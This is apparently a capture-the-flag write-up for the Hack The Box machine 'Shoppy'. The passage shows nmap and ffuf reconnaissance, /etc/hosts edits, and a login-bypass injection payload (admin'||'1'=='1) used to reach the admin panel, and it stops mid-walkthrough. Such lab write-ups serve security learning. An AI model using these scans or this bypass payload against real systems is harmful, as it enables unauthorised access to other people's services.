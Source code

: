 # Box: Shoppy 
# Level: Easy
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.227.233 -T4 -v -p-```

```
Nmap scan report for 10.129.227.233
Host is up (0.12s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 13 Sep 2023 08:33:59 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 9
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 9
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 3.7812e-05
|     go_gc_duration_seconds{quantile="0.25"} 0.000136723
|     go_gc_du
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 13 Sep 2023 08:34:00 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 9
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 9
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 3.7812e-05
|     go_gc_duration_seconds{quantile="0.25"} 0.000136723
|_    go_gc_du
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.93%I=7%D=9/13%Time=650173F8%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,443B,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Wed,\x2
SF:013\x20Sep\x202023\x2008:33:59\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x209\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20application
SF:\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc_
SF:cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc_
SF:cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x2
SF:0TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_to
SF:tal_gc_cycles_total\x209\n#\x20HELP\x20go_gc_duration_seconds\x20A\x20s
SF:ummary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collection
SF:\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_dur
SF:ation_seconds{quantile=\"0\"}\x203\.7812e-05\ngo_gc_duration_seconds{qu
SF:antile=\"0\.25\"}\x200\.000136723\ngo_gc_du")%r(HTTPOptions,2F0E,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Wed,\x2013\x20Sep\x202023\x2008:34:00\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x209\n#\x20HELP\x20go_gc_cycle
SF:s_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x2
SF:0forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_forced
SF:_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\n
SF:#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\x
SF:20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycle
SF:s_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x209\n#\x20HELP\
SF:x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20dura
SF:tion\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_dur
SF:ation_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x203\.
SF:7812e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x200\.000136723\ng
SF:o_gc_du");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/13%OT=22%CT=1%CU=35315%PV=Y%DS=2%DC=T%G=Y%TM=6501747
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=Z%TS=A)SEQ(SP=D
OS:D%GCD=12%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O
OS:3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11NW7%O6=M539ST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 1.644 days (since Mon Sep 11 18:09:25 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=221 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   131.36 ms 10.10.14.1
2   120.06 ms 10.129.227.233

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 13 09:36:12 2023 -- 1 IP address (1 host up) scanned in 760.96 seconds
```
From our scan we have 3 opened ports. Our focus will be on the port which runs http (port 80)

# Enumeration

Lets add the IP address to our ```/etc/hosts``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/shoppy]
└─$ sudo nano /etc/hosts
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/shoppy]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       bl4ck4non

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.129.227.233 shoppy.htb
```
Lets navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0586940e-a60c-4371-9f8c-3b7130d76678)

Lets enumerate for directories using ffuf

command:```ffuf -u "http://shoppy.htb/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02085d5a-1f55-4d0a-913a-73ce07eab63e)

The only direcrories we can access on this webpage are ```/admin``` and ```/login```. Navigating to the ```/admin``` directory redirects to the ```/login``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be5defca-dbef-435d-9cd6-b0ab300c0ec2)

We have a login page, but we don't have creds we can use to login.

Lets try SQLi bypass, 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6c1f1a6-1f23-4808-9aa3-3539a5c82285)

We can craft  a payload from that.

username:```admin'||'1'=='1```            password:```admin```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb0bafee-2203-46ad-b39f-4b3d2f310b56)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6cee8c85-5b58-412b-9273-ce25cd3ad415)

We are logged in hehe

Lets continue with our enumeration by enumerating for subdomains,

command:```ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1def6d28-acfc-4739-a0c7-1bab3081e4bc)

Lets add the subdomain to our ```/etc/hosts``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/shoppy]
└─$ sudo nano /etc/hosts
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/shoppy]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       bl4ck4non

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.129.227.233 shoppy.htb mattermost.shoppy.htb
```
Navigating to that subdomain





























